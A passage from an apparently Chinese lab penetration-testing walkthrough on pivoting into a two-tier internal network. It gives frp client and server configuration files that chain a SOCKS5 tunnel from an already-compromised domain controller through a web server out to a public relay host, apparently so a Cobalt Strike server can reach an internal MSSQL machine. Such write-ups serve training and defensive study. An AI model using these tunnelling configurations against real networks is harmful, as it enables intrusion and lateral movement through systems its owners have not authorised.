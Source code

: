 0x05 二级内网MSSQL渗透|上线CS
---------------------

这里模拟搭建二级内网环境，顺便复习下二级frp代理的搭建和内网穿透上线CS。环境配置信息如下

```php
公网服务器
121.xx.xx.xx

Web服务器(目标站点)
192.168.73.137(对外)
10.10.10.101(对内)

域控
10.10.10.10
10.12.10.5

MSSQL服务器
10.12.10.3
```

这里假设已经获取到了**Web服务器和域控**的权限

### 1、搭建二级代理

1）在域控上传`frpc.exe`和`frpc.ini`文件

```php
#frpc.ini
[common]
server_addr = 10.10.10.101
server_port = 12010     # 连接端口
[http_proxy]
type = tcp
remote_port = 1084      # 代理端口
plugin = socks5
```

2）在Web服务器上传`frpc.exe、frpc.ini、frps.exe、frps.ini`文件

```php
# frps.ini
[common]
bind_addr = 10.10.10.101
bind_port = 12010 

# frpc.ini
[common]
server_addr = 121.xx.xx.xx
server_port = 12010
[http_proxy]
type = tcp
local_ip = 10.10.10.101
local_port = 1084
remote_port = 1084
```
